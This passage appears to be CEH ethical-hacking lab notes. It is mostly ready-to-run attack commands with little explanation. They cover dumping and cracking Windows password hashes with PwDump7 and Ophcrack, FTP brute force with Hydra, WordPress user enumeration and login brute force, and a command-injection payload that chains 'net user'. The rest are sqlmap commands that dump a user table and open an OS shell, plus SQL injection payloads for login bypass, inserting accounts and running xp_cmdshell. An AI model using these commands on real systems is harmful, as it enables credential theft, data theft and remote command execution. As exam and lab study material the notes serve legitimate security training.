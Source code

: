 Len as 6 and Chain Count 4000000 Select loweralpha from Charset dropdown list (it depends upon Password). rcrack_gui.exe to crack hash with rainbow table >>Hash dump with Pwdump7 and crack with ohpcrack : wmic useraccount get name,sid --> Get user acc names and SID PwDump7.exe > c:\hashes.txt Replace boxes in hashes.txt with relevant usernames from step 1. Ophcrack.exe -> load -> PWDUMP File Tables -> Vista free -> select the table directory -> crack----------------------------------------------------- >>Module 08 : Sniffing----------------------------------------------------- http.request.method == “POST” -> Wireshark filter for filtering HTTP POST request Capture traffic from remote interface via wireshark Capture > Options > Manage Interfaces Remote Interface > Add > Host & Port (2002) Username & password > Start----------------------------------------------------- >>>Module 13 : Hacking Web Servers----------------------------------------------------- FTP Bruteforce with Hydra hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11 >>Module 14 : Hacking Web Applications Wordpress wpscan --url http://10.10.10.12:8080/CEH --enumerate u (--api-token ) WP password bruteforce msfconsoleuse auxiliary/scanner/http/wordpress_login_enum RCE ping 127.0.0.1 | hostname | net user----------------------------------------------------- >>>>Module 15 : SQL Injection----------------------------------------------------- SQLMAP Extract DBS sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” - cookie="xookies xxx" --dbs Extract Tables sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” - cookie="cookies xxx" -D moviescope --tables Extract Columns sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” - cookie="cookies xxx" -D moviescope -T User_Login --columns Dump Data sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” - cookie="cookies xxx" -D moviescope -T User_Login --dump OS Shell to execute commands sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” - cookie="cookies xxx" --os-shell Login bypass blah' or 1=1 - Insert data into DB from login blah';insert into login values ('john','apple123'); Create database from login blah';create database mydatabase; Execute cmd from login blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; -